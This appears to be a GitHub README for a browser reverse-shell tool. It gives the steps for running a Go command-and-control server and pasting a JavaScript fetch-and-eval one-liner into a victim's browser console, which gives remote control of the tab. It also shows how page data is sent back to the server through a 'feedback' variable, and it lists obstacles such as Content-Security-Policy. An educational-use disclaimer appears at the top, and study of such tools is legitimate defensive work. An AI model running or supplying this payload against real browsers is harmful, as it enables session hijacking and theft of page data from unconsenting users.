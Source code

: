 # Browser Reverse Shell

**NOTICE: for educational purposes only, DO NOT use without the explicit permission of the owner of the browser**

Create a reverse shell into a browser tab.

## How to use

start the C2 server by going into the c2 directory and running

~~~bash
go run main.go
~~~

then in the victim browser, open devtools and paste the fetch-rev-shell.js contents into the console, changing out the url for the ip address of your c2 server.

~~~js
const url = "http://localhost:8080/"; const r1 = await fetch(url + "get");const r2 = await r1.text(); eval(r2);
~~~

now go to the console of the c2 server, you now have a javascript reverse shell into the current browser tab of the 

## Feedback

To get information back to the c2 server, you can use the *feedback* variable.

for example to see the title of the current page:

~~~
(c2)> feedback = document.title
~~~

The title will then be printed next time the browser sends a request

## Challenges

- HTTPS: most websites reject mixed content from http and https websites (except from localhost)
- This reverse shell relies on the eval function of javascript, which many sites block.
- Many sites (like github) block fetching from other sources than the preapproved ones, which will give you an error like
~~~
Content-Security-Policy: The page’s settings blocked the loading of a resource (connect-src) at http://localhost:8080/get because it violates the following directive: “connect-src 'self'
~~~

